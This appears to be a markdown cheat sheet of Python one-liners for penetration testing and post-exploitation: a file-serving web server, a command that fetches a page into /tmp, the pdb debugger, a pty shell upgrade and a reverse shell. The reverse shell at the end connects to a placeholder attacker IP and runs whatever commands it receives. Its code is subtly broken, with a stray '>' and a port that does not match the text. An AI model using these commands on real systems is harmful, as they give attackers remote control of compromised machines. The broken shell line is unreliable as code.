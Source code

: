 # Cool Python Tricks

## Starting a quick web server to serve some files (useful for post exploitation)

### In Python 2.x
`python -m SimpleHTTPServer 1337`

### In Python 3.x
`python3 -m http.server 1337`

----
## Pythonic Web Client

### In Python 2.x
`python -c 'import urllib2; print urllib2.urlopen("http://h4cker.org/web").read()' | tee /tmp/file.html`
### In Python 3.x
`python3 -c 'import urllib.request; urllib.request.urlretrieve ("http://h4cker.org/web","/tmp/h4cker.html")'`

----
## Python Debugger
This imports a Python file and runs the debugger automatically. This is useful for debugging Python-based malware and for post-exploitation.

`python -m pdb <some_python_file>`

Refer to this [Python Debugger cheatsheet](https://kapeli.com/cheat_sheets/Python_Debugger.docset/Contents/Resources/Documents/index) if you are not familiar with the Python Debugger.

----

## Shell to Terminal
This is useful after exploitation and getting a shell. It allows you to use Linux commands that require a terminal session (e.g., su, sudo, vi, etc.)

`python -c 'import pty; pty.spawn("/bin/bash")'`

----

## Using Python to do a Reverse Shell

You put your IP address (instead of 10.1.1.1) and the port (instead of 13337) below:

`python -c "exec(\"import socket, subprocess;s = socket.socket();s.connect(('10.1.1.1',1337>))\n while 1: proc = subprocess.Popen(s.recv(1024), shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE);s.send(proc.stdout.read()+proc.stderr.read())\")"`
